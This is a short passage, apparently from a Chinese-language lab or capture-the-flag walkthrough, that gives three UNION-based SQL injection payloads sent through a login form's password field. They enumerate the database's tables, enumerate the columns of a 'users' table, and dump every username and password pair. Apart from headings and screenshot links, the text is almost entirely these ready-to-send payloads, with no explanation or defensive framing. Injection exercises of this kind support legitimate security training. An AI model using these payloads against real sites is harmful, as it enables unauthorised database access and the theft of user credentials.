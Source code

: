 #### 爆表

```
passwd=' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#&Submit=Submit&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183411173.png" alt="image-20230606183411173" style="zoom:50%;" />

#### 爆字段

```
Submit=Submit&passwd='+union+select+1,group_concat(column_name)+from+information_schema.columns+where+table_schema=database() and table_name='users'#&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183555732.png" alt="image-20230606183555732" style="zoom:50%;" />

#### 拖库

```
Submit=Submit&passwd='+union+select+1,group_concat(username,':',password)+from users#&uname=admin
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606183706465.png" alt="image-20230606183706465" style="zoom:50%;" />
